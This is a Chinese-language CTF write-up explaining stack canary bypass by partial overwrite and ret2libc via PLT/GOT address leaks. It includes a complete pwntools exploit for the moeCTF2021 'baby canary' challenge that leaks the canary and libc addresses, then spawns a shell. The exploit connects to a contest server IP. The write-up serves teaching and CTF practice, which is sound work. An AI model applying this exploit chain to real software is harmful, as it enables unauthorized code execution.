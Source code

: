 ```yaml
---
title: "[PWN.0x01]canary|partial overwrite|ret2libc"
date: 2022-03-07T22:25:31+08:00
draft: false
url: "articles/CTFpwn2"
categories: ["CTF","PWN"]
---
```


### canary绕过

#### 什么是canary？

canary是一种防止栈溢出的保护机制，可以在终端中使用checksec命令检查ELF文件是否开启了canary保护。

是否开启canary的编译选项：

```bash
gcc -o test test.c // 默认情况下，不开启Canary保护
gcc -fno-stack-protector -o test test.c //禁用栈保护
gcc -fstack-protector -o test test.c //启用堆栈保护，不过只为局部变量中含有 char 数组的函数插入保护代码
gcc -fstack-protector-all -o test test.c //启用堆栈保护，为所有函数插入保护代码
```

在开启了canary的情况下，程序会在栈底额外存储一个值，并在函数return的时候检查这个值是否发生变动，从而判断程序是否发生了栈溢出，可以大大提高程序运行的安全性。

#### 如何绕过canary？

canary本身有个防意外输出的机制，由于printf %s函数以`\x00`为输出结束的标志，因此为了防止canary下面的合法数据段被合法写入的情况下，canary被printf函数意外输出，所以在小端序程序中，canary的最低位字节一定为`\x00`，因此可以进行**partial overwrite**，即部分覆盖。在写完合法的区域之后，溢出写入一个字节的数据把canary末尾的`\x00`覆盖掉，这样之后的printf函数就会顺带着泄露canary的值。



### ret2libc

#### 概述

在较为基础的pwn题中一般都有一个显性的`system`函数和`/bin/sh`字符串供选手调用。

如果这两者都不显性存在，就可以使用ret2libc方法。

这种方法主要针对**动态链接（dynamic linking）**的程序，程序运行时会调用 **libc.so** (程序被装载时，动态链接器会将程序所有所需的动态链接库加载至进程空间，libc.so 就是其中最基本的一个)。

**libc.so** 是 linux 下 C 语言库中的运行库**glibc** 的动态链接版，并且 **libc**.**so** 中包含了大量的可以利用的函数，包括 **system() 、execve()** 等系统级函数，我们可以通过找到这些函数在内存中的地址覆盖掉返回地址来获得当前进程的控制权。通常情况下，我们会选择执行 **system("/bin/sh")** 来打开 shell。

工作重心转向获取libc.so加载进内存的可利用的函数的地址。

#### 什么是动态链接？

[深入理解动态链接 - 简书 (jianshu.com)](https://www.jianshu.com/p/cdb5cfcb5056)

[深入理解GOT表和PLT表 - 知乎 (zhihu.com)](https://zhuanlan.zhihu.com/p/130271689)

[got表和plt表在程序执行过程中的作用 - 云+社区 - 腾讯云 (tencent.com)](https://cloud.tencent.com/developer/article/1680494)

简而言之，装载到程序中的有两张表，对于一个外部库的被调用的函数，plt表指向got表中这个函数的位置，got表中则存储着这个函数在内存中的真实地址，函数的调用时通过plt表来完成的。

而对于一个链接库（如libc.so）而言，虽然其加载进内存的具体地址不确定，但是其内部的各个函数的相对位置是确定的，也就是说，可以构造payload泄露libc.so中的一个函数的真实地址，从而根据固定的偏移获取system等函数的地址。



#### 例题：moeCTF2021 - baby canary

checksec后发现开了NX和canary保护。

![lAEmSNwFPbVyfop](lAEmSNwFPbVyfop.png)

canary的绕过方法上面已有介绍，构造payload如下，借助第一个puts获取canary的值。

```python
payload1=b'a'*(0x4c-0x0c)+b'b'
p.send(payload1)
p.recvuntil(payload1)
canary=u32(p.recv(3).rjust(4,b'\x00'))
```

接下来要获取libc.so库中的某一函数的真实地址，不妨来获取puts函数的真实地址。构造payload使gots表中puts的值输出，获取到puts函数的真实地址，并使函数返回至main函数中，重新开始程序进行进一步攻击。

```python
payload2=b'a'*(0x4c-0x0c)+p32(canary)+b'a'*12+p32(puts_plt)+p32(e.symbols["main"])+p32(puts_got)
#注意上面的puts_got指的是地址，而真实的值是不固定的，需要被puts函数泄露
p.send(payload2)
p.recvuntil("he flag!\n")
puts_addr=u32(p.recv(4))
```

之后根据已知的libc.so中puts函数和system，/bin/sh的便宜来获取system和/bin/sh的真实位置，从而构造payload攻击。

完整exp：

```python
from pwn import *
context(os="linux",arch="amd64",log_level="debug")
local=1
e=ELF("./baby_canary")
puts_got=e.got["puts"] #指向got表的地址，got表具体的值要靠puts泄露
puts_plt=e.plt["puts"]
libc = ELF('/lib/i386-linux-gnu/libc.so.6')
def main():
    if local:
        p=process("./baby_canary")
    else:
        p=remote("114.67.175.224",11482)
    p.recv()
    payload1=b'a'*(0x4c-0x0c)+b'b'
    p.send(payload1)
    p.recvuntil(payload1)
    canary=u32(p.recv(3).rjust(4,b'\x00'))
    p.recv()
    print("canary: ",hex(canary))
    payload2=b'a'*(0x4c-0x0c)+p32(canary)+b'a'*12+p32(puts_plt)+p32(e.symbols["main"])+p32(puts_got)
    p.send(payload2)
    p.recvuntil("he flag!\n")
    puts_addr=u32(p.recv(4))
    print(puts_addr)
    libc_base = puts_addr - libc.sym['puts']
    system_addr = libc_base + libc.sym['system']
    binsh_addr = libc_base + libc.search(b'/bin/sh').__next__()

    p.recvuntil("u are?\n")
    p.send(payload1)
    payload3=b'a'*(0x4c-0xc)+p32(canary)+b'a'*12+p32(system_addr)+b'aaaa'+p32(binsh_addr)
    p.send(payload3)
    p.interactive()
main()
```



### 小插曲

实践中发现，在函数调用栈中除了该有的局部变量，有时会出现一些奇怪的变量，这是由编译器决定的，一般用于存储寄存器上下文。

![3](3.png)
